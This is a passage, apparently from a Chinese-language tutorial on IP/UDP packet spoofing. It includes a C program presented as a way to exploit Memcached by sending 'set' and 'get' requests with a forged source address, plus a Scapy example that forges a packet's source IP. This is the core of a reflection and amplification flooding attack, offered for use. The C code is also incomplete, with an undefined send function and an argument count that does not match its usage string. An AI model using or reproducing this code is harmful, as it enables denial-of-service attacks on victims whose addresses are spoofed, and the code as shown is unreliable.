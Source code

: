 ```cpp
```

如果要利用Memcached漏洞：

```cpp

int main(int argc, const char *argv[])
{
    if (argc != 5)
    {
        printf("usage:%s src_ip src_port dst_ip dst_port data\n", argv[0]);
        exit(1);
    }
    char setBuff[65535]="set AAAA 0 1000";
    /* 发送ip_udp报文 */
    ip_udp_send(argv[1], atoi(argv[2]), argv[3], atoi(argv[4]), setBuff);
    
    char getBuff[65535]="get AAAA";
    ip_udp_send(argv[1], atoi(argv[2]), argv[3], atoi(argv[4]), getBuff);

    return 0;
}
```

## 0x05 其他方式

Python Scapy 伪造网络数据包

```

>>> data = "Hello Scapy"
>>> pkt = IP(src='172.16.2.135', dst='172.16.2.91')/UDP(sport=12345, dport=5555)/data
>>> send(pkt, inter=1, count=1)
```





